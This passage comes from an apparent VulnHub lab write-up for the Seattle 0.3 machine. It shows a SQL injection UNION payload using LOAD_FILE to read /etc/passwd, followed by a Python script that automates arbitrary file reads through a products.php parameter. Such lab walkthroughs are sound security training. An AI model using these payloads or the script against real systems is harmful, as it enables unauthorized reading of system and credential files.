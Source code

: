![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:28:44.png)

### Read Files

We can also read files with the sqlinjection

```
type=2+UNION+SELECT+1,2,LOAD_FILE('/etc/passwd'),4,5--+-
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:30:02.png)

We could do a python script to make this LFI better

Here it's

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2012:24:29.png)

auto_lfi.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto File Read LFI
# Seattle0.3 Level 1 - VulnHub

import argparse
import requests
import sys
from bs4 import BeautifulSoup
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Let's read files!
def readFile(rhost):
    url_ori = "http://%s:80/products.php?type=2" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    cookies = {'level':'1'}
    while True:
        file = input(prefix)
        if file != "exit":
            url = url_ori + "+UNION+SELECT+1,2,LOAD_FILE('%s'),4,5--+-" %file
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            output = r.get(url,headers=headers,proxies=proxies,cookies=cookies)
            container = re.search(r"1.jpg><strong>Product Name: </strong>.*<strong>", output.text, re.DOTALL).group(0)
            if output.headers['Content-Length'] == "2738":
                print()
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
                print()
            else:
                container = str(container)
                container = container.removesuffix("<br /><strong>")
                container = container.removeprefix("1.jpg><strong>Product Name: </strong>")
                print()
                print(container)
        else:
            print()
            print("[+] Exxxxitting.... !! [+]")
            print()
```